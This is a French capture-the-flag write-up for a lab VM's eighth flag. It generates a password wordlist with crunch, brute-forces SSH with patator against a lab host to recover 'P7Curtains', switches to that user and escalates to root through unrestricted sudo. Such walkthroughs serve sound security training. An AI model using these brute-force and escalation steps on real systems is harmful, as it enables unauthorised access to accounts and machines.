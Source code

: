 
** Huitième FLAG 100/130 **

On va donc ici générer un dictionnaire de mot de passe avec cruncher : 

```bash
root@kali:~# crunch 7 7 -t ,%Flesh >> rick-list.txt
root@kali:~# crunch 10 10 -t ,%Curtains >> rick-list.txt
```

On à donc : 
- Nombre mini de caractères 
- Nombre maxi de caractères
- **-t** pour spécifier une chaîne un peut à la Sprintf
- **,** pour une lettre majuscule
- **%** pour un digit
- Une chaîne avec les mots Flesh et Curtains (Je vous laisse chercher sur google)

Maintenant patatons ! 

```bash
root@kali:~# patator ssh_login host=192.168.122.122 port=22222 user=RickSanchez password=FILE0 0=rick-list.txt -x ignore:mesg='Authentication failed.'

11:18:17 patator    INFO - 0     19    0.165 | P7Curtains                         |  1198 | SSH-2.0-OpenSSH_7.5
```

On à donc trouver le mot de passe de Rick **P7Curtains** :

```bash
[Summer@localhost ~]$ su RickSanchez
Mot de passe : 
[RickSanchez@localhost Summer]$ whoami 
RickSanchez
```

On test si on à des droits sudo : 

```bash
[RickSanchez@localhost Summer]$ sudo -l
[sudo] Mot de passe de RickSanchez : 
Entrées par défaut pour RickSanchez sur localhost :
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

L'utilisateur RickSanchez peut utiliser les commandes suivantes sur localhost :
    (ALL) ALL
```

On y est presque : 

```bash
[RickSanchez@localhost Summer]$ sudo -s
[root@localhost Summer]# head FLAG.txt 
FLAG{Get off the high road Summer!} - 10 Points
```
